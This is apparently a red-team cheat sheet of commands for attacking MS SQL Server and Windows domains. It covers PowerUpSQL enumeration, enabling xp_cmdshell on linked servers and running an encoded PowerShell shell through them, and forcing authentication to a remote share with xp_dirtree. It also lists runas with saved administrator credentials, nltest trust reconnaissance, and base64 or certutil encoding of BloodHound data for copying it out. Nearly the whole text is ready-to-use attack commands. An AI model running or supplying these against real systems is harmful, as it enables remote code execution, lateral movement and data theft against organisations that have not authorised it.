 
## PowerUpSQL

* Get Local Instance
   * `Get-SQLInstanceLocal`
* Query Local Instance
   * `Get-SQLQuery -Instance <local_instance> -Query "Select @@version"`
* Execute Command on Local Instance
   * `Invoke-SQLOSCmd -Instance "<local_instance>" -Command "whoami"`
* Audit
   * `Invoke-SQLAudit -Instance <instance>`
* Get Linked Instances
   * `Get-SQLServerLink -Instance "<local_instance>"`
* Crawl Linked Instances
   * `Get-SQLServerLinkCrawl -Instance "<local_instance>"`
* Query Linked Instance
```
Get-SQLQuery -Query "SELECT * FROM OPENQUERY(`"<remote_instance>`", 'select @@servername');"
```
* Enable xp_cmdshell on Linked Instance
   * `Get-SQLQuery -Query "EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [<remote_instance>] EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [<remote_instance>]"`
* Execute Command on Linked Instance
   * `Get-SQLServerLinkCrawl -Instance "<remote_instance>" -Query "exec master..xp_cmdshell 'whoami'"`
* Get Shell on Linked Instance
   * `Get-SQLServerLinkCrawl -Instance "RDC01\SQLEXPRESS" -Query "exec master..xp_cmdshell 'powershell -enc bla'"`
* xp_dirtree
   * `Get-SQLQuery -Instance <instance> -Query "EXEC master..xp_dirtree '\\<ip>\<share>';"`


## Runas

* Start process (domain context)
   * `runas /netonly /user:<user> powershell`
* Start process (local context)
   * `runas /user:<user> powershell`
* Use saved credentials
   * `runas /savecred /user:administrator powershell`


## Nltest

* Get Domain Controllers
   * `nltest /dsgetdc:<domain>`
* Get Domain Trusts
   * `nltest /trusted_domains`


## Copy-Paste

* Linux
   * `apt install xclip`
   * `base64 BloodHound.zip | tr -d '\n' | xclip -sel clip`
* Macos
   * `do_something | pbcopy`
* Windows
   * `certutil -encode BloodHound.zip BloodHound.b64`
   * `cat BloodHound.b64 | Set-Clipboard`
   * `certutil -decode BloodHound.b64 BloodHound.zip`
